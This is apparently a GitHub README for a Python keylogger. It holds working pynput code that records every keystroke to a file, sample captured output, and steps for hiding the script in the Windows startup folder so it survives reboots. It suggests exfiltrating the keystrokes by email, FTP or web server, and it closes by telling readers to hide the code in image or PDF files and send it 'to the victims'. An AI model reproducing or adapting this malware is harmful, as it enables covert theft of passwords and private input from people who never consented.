 ## python3_Keylogger ♘
python3 keylogger 

1) install python 3 then install pynput with following command
	```python
		 python -m pip install pynput
	```
2) output was automatically saved on script directory that was running <br>
3) Use Shell as follow<br>
  3-1) win+R<br>
  3-2) paste shell:startup then enter<br>
  3-3) copy keylogger.py in folder that apeared before<br>
  3-4) change dir to different location<br>

### you can use SMTP Email or FTP Client or Web Server to get KeyStroke
#### Good Luck! (mrt.mycloud@gmail.com)

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
output as follow
```C#
2021-04-10 16:46:43,841: Key.backspace
2021-04-10 16:46:44,298: 'p'
2021-04-10 16:46:44,578: 'y'
2021-04-10 16:46:44,826: 't'
2021-04-10 16:46:44,922: 'h'
2021-04-10 16:46:45,154: 'o'
2021-04-10 16:46:45,354: 'n'
2021-04-10 16:46:45,898: <99>
2021-04-10 16:46:47,178: <193>
2021-04-10 16:46:48,114: Key.shift_r
2021-04-10 16:46:48,474: '+'
2021-04-10 16:46:49,298: Key.backspace
2021-04-10 16:46:50,346: Key.shift_r
```
#### this keylogger can be used on windows/linux/Mac
#### ʕ•́ᴥ•̀ʔ you can Hide this code on .jpg/.png/.pdf with "steganography" then send to the victims
